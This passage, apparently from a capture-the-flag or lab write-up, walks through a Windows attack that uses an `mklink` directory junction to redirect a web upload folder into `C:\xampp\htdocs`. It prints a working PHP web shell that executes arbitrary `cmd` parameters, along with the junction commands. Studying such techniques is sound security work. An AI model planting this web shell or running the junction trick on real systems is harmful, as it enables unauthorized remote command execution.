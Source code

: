 Creating a symlink for a directory is relatively easy and involves utilizing the `mklink` command. We'll specify the name of a directory that we want to establish the link on, and then the target directory we want it to be linked to. This will essentially function like a mount - meaning that all files that are created within the first directory will be automatically uploaded to the second directory at the endpoint of the symlink and vice versa. You can find more information about symlinks [here](https://nixhacker.com/understanding-and-exploiting-symbolic-link-in-windows/).

Since we know that the file specifically creates a static name for the directory, we can use this to create a symlink between objects (directories in our case) that are created with the specific name and link it to another directory. We can essentially send this anywhere, however in our case let's try to specifically deliver it to the `C:\xampp\htdocs` directory that we previously did not have access to.

Let's first create a simple web shell and upload it via the web application upload functionality. You can find the webshell that I used below from [revshells.com](https://www.revshells.com/).

```PHP
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

After this file is uploaded to the `Uploads` directory, let's grab the name of the directory that is created.

```
PS C:\Windows\Tasks\Uploads> cat .\todo.txt
Filename: webshell.php, Random Variable: a5f9e4b2c2e61ae07ffaec35aa299a7d
```

After this, I deleted the folder after it was created, as we have the "random" variable that is created. We can then use `mklink` to create a symbolic link between the name of the folder that will be created and the `C:\xampp\htdocs` directory.

```
PS C:\Windows\Tasks\Uploads> cmd /c "mklink /J a5f9e4b2c2e61ae07ffaec35aa299a7d C:\xampp\htdocs"
Junction created for a5f9e4b2c2e61ae07ffaec35aa299a7d <<===>> C:\xampp\htdocs
```

Remember that `mklink` is a CMD-specific command, meaning it will be unrecognized by PowerShell.

Now that the link has been established, we'll reupload the webshell with the same properties as we did previously. After it is uploaded, we'll check `C:\xampp\htdocs` to see if the link worked accordingly.
